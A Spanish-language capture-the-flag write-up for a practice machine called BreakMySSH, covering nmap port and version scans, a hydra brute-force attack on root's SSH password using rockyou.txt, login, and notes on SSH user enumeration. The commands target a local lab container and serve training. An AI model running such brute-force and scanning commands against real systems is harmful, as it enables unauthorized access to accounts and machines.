 # 🛡️ Máquina: BreakMySSH  
**Dificultad:** Muy Fácil  

## 📌 Descripción  
El propósito de esta máquina es poner a prueba habilidades básicas de enumeración de servicios, fuerza bruta por SSH y posibles caminos hacia la escalada de privilegios a través del análisis del sistema.

---

## ⚙️ Despliegue de la Máquina  

Primero descargamos el archivo `.zip` de la máquina y lo descomprimimos con:

```bash
unzip breakmyssh.zip
```

Luego desplegamos la máquina con el script proporcionado:

```bash
sudo bash auto_deploy.sh breakmyssh.tar
```

![Despliegue de la máquina](/BreakMySSH/Imagenes/Despliegue.jpeg)

---

## 📡 Verificación de Conectividad  

Verificamos que la máquina esté activa mediante un `ping` a su dirección IP (172.17.0.2):

```bash
ping -c4 172.17.0.2
```

![Ping a la máquina](/BreakMySSH/Imagenes/Ping.jpeg)

---

## 🔎 Escaneo de Puertos con Nmap  

Realizamos un escaneo de todos los puertos para descubrir cuáles están abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

**Explicación de opciones:**
- `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Muestra solo los puertos abiertos.
- `-sS`: Realiza un escaneo SYN.
- `--min-rate 5000`: Aumenta la velocidad de escaneo.
- `-Pn`: Omite la detección de host.
- `-oG`: Guarda la salida en formato grepeable.

![Resultado del escaneo de puertos](/BreakMySSH/Imagenes/Puertos.jpeg)

---

## 📂 Extracción de Puertos  

Utilicé un script personalizado `extractPorts` para extraer rápidamente la IP y los puertos abiertos del archivo generado:

```bash
extractPorts allPorts.txt
```

---

## 🔍 Detección de Servicios y Versiones  

Con el puerto 22 identificado como abierto, ejecutamos un escaneo más específico para detectar versiones y posibles scripts predeterminados:

```bash
nmap -sC -sV -p 22 172.17.0.2 -oN target.txt
```

**Explicación de opciones:**
- `-sC`: Usa scripts por defecto de Nmap.
- `-sV`: Detecta versiones de servicios.
- `-p 22`: Escanea solo el puerto 22 (SSH).
- `-oN`: Guarda la salida en un archivo legible.

![Detección de versiones](/BreakMySSH/Imagenes/Servicios.jpeg)

---

## 🗝️ Ataque de Fuerza Bruta con Hydra  

Dado que solo está disponible el puerto SSH (22) usare el usuario `root` para verificar si es un usuario disponible, intentamos acceder mediante fuerza bruta con `hydra` usando el diccionario `rockyou.txt`:

```bash
sudo hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

**Hydra** es una herramienta popular para ataques de diccionario contra múltiples protocolos, incluido SSH.

![Ataque con Hydra](/BreakMySSH/Imagenes/Hydra.jpeg)

---

## 🔐 Acceso SSH Exitoso  

Una vez encontrada la contraseña del usuario `root`, accedemos mediante:

```bash
ssh root@172.17.0.2
```

![Acceso SSH](/BreakMySSH/Imagenes/SSH.jpeg)

---

## 🧠 Notas Adicionales  

- Usé la herramienta `searchsploit` para investigar la versión del servicio SSH. Encontré una vulnerabilidad relacionada con la **enumeración de usuarios**.
- En el directorio `/home` se encuentra otro usuario, lo que sugiere que podríamos explotar esta vulnerabilidad para enumerar usuarios válidos.
- Una vez identificado ese segundo usuario, sería posible realizar otro ataque de fuerza bruta con `hydra` y así acceder a la máquina bajo ese perfil.
- Este tipo de escenario es ideal para practicar escaladas de privilegios locales una vez que se tiene acceso como usuario no privilegiado.
